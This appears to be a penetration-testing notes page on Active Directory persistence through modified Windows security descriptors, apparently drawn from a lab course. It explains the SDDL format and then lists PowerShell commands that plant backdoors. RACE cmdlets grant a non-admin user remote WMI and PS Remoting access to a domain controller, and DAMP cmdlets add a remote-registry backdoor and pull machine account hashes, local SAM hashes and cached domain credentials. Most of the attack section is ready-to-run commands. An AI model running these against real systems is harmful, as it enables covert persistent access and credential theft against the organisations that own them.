

# Security Descriptors

## Format

Security Descriptor Definition Language (SDDL) defines the format which is used to describe a security descriptor.&#x20;



`ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid`



Detailed docs about SDDL:



## Exploitation

Once we have administrator privileges it is possible to create a backdoor by modifying Security Descriptors like Owner, primary group, DACL and SACL of multiple remote access methods to allow access to non-admin users.

### WMI - GUI

It is possible to add the non-admin user to the ACE using the `Component Services` and `Computer Management`.

<figure><figcaption><p>Component Services</p></figcaption></figure>

<figure><figcaption><p>Computer Management</p></figcaption></figure>

Apply to all namespaces

<figure><figcaption><p>Computer Management</p></figcaption></figure>

<pre class="language-powershell"><code class="lang-powershell"><strong># Check if worked
</strong><strong># Worked if didn't get access denied 
</strong><strong>gwmi -class win32_operatingsystem -ComputerName &#x3C;dc_machine>
</strong></code></pre>


### WMI - PowerShell

ACE for built-in administrators for WMI namespaces `A;CI;CCDCLCSWRPWPRCWD;;;SID`

in order to get access to WMI namespaces attacker needs to create a new ACE with the `SID` to non-admin user which he controls.

ACLs can be modified to allow non-admin users using the [RACE toolkit](https://github.com/samratashok/RACE):


Require Domain Admin privileges


```powershell
# Loading the module
. C:\AD\Tools\RACE-master\RACE.ps1


Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose

# with explicit credentials
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose

# Remove
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose


```

PS Remoting (not stable after August 2020 patches)

```powershell
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Verbose

# Remove
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Remove
```

### Remote Registry

**Reg backdoo**r using [DAMP](https://github.com/HarmJ0y/DAMP) Tool allows to non-admin user to retrieve the hash of the computer, the SAM and cached credentials in the computer:

```bash
# Modify ACE with admin privs
Add-RemoteRegBackdoor -ComputerName <remotehost> -Trustee student1 -Verbose

# retrieve machine hash
Get-RemoteMachineAccountHash -ComputerName <remotehost> -Verbose

# retrieve local account hash
Get-RemoteLocalAccountHash -ComputerName <remotehost> -Verbose

# retrieve domain cached credentials
Get-RemoteCachedCredential -ComputerName <remotehost> -Verbose
```

